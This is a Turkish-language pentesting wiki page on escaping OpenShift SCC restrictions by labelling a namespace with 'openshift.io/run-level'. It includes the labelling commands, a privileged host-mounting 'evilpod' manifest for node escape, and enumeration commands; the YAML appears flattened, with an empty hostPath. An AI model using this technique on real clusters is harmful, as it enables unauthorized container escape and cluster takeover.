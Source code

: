 # Openshift - SCC atlatma

**Bu sayfanın orijinal yazarı** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## Ayrıcalıklı Ad Alanları

Varsayılan olarak, SCC aşağıdaki projelere uygulanmaz:

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

Bu ad alanlarından birinde pod'lar dağıtırsanız, hiçbir SCC uygulanmayacak, ayrıcalıklı pod'ların dağıtılmasına veya ana dosya sisteminin bağlanmasına izin verilecektir.

## Ad Alanı Etiketi

RedHat belgelerine göre pod'unuzda SCC uygulamasını devre dışı bırakmanın bir yolu vardır. Bunun için en az aşağıdakilerden birine sahip olmanız gerekecektir:

* Bir Ad Alanı Oluşturun ve Bu Ad Alanı Üzerinde Bir Pod Oluşturun
* Bir Ad Alanını Düzenleyin ve Bu Ad Alanı Üzerinde Bir Pod Oluşturun
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Belirli etiket `openshift.io/run-level`, kullanıcıların uygulamalar için SCC'leri atlamasına olanak tanır. RedHat belgelerine göre, bu etiket kullanıldığında, bu etiketin kullanıldığı ad alanındaki tüm pod'larda hiçbir SCC uygulanmaz, böylece herhangi bir kısıtlamayı kaldırır.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Etiket Ekleme

Ad alanınıza etiket eklemek için:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Bir YAML dosyası aracılığıyla etiketli bir ad alanı oluşturmak için:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Şimdi, ad alanında oluşturulan tüm yeni pod'ların herhangi bir SCC'si olmamalıdır

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC olmadığında, pod tanımınızda herhangi bir kısıtlama olmaz. Bu, kötü niyetli bir pod'un ana sistem üzerine kolayca kaçmasına olanak tanır.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Şimdi, ayrıcalıkları yükseltmek ve ardından tüm kümesi ele geçirerek 'cluster-admin' ayrıcalıklarını elde etmek daha da kolaylaştı. Aşağıdaki sayfadaki **Node-Post Exploitation** bölümüne bakın:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Özel etiketler

Ayrıca, hedef kurulumuna bağlı olarak, bazı özel etiketler / açıklamalar önceki saldırı senaryosuyla aynı şekilde kullanılabilir. Etiketler, izin vermek, belirli bir kaynağı kısıtlamak veya kısıtlamamak için kullanılabilir, hatta bu amaçla yapılmamış olsalar bile.

Bazı kaynakları okuyabiliyorsanız özel etiketlere bakmaya çalışın. İşte ilginç kaynakların bir listesi:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Tüm ayrıcalıklı ad alanlarını listele
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Gelişmiş saldırı

OpenShift'te, daha önce gösterildiği gibi, `openshift.io/run-level` etiketine sahip bir ad alanında bir pod dağıtma iznine sahip olmak, kümenin kolayca ele geçirilmesine yol açabilir. Küme ayarları açısından, bu işlevsellik **devre dışı bırakılamaz**, çünkü OpenShift'in tasarımına dahildir.

Ancak, **Open Policy Agent GateKeeper** gibi önlem alma önlemleri, kullanıcıların bu etiketi ayarlamasını engelleyebilir.

GateKeeper'ın kurallarını atlamak ve bu etiketi ayarlamak için bir küme ele geçirme işlemi gerçekleştirmek için, **saldırganların alternatif yöntemleri belirlemesi gerekir.**

## Referanslar

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
